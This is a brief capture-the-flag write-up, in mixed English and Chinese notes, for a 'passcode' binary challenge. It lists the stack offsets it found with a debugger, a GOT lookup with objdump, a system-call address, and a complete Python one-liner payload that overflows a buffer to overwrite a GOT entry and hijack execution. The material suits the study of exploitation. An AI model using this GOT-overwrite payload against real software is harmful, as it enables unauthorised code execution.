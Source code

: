 Set break point at welcome 

搵 name[100]  address->ebp-0x70

set at login

搵passcode1 ,passcode2 address

passcode1:ebp-0x10
passcode2:ebp-0xc

EBP: 0xffffd3a8 --> 0xffffd3c8

observed that EBP(base pointer) address is the same for two cases

0x70-0x10=96


objdump -R passcode <-check GOT table for passcode


use IDA pro find system address:080485E3

因為入完passcode1之後只有function run(scanf,printf,chk....)做過

所以,先疊高name,向passcode1寫入地址令passcode1指向(scanf,printf,chk....)
再input system address

scanf("%d", passcode1);<becoz %d so input a integer


payload= python -c "print 'A'*96+'\x00\xa0\x04\x08\n'+'134514147\n'" | ./passcode


Reference:
http://blog.csdn.net/qq_20307987/article/details/51303824

http://brandon-hy-lin.blogspot.hk/2015/12/shared-library-plt-got.html

https://gist.github.com/ihciah/0ca68da3e32e38818bb9
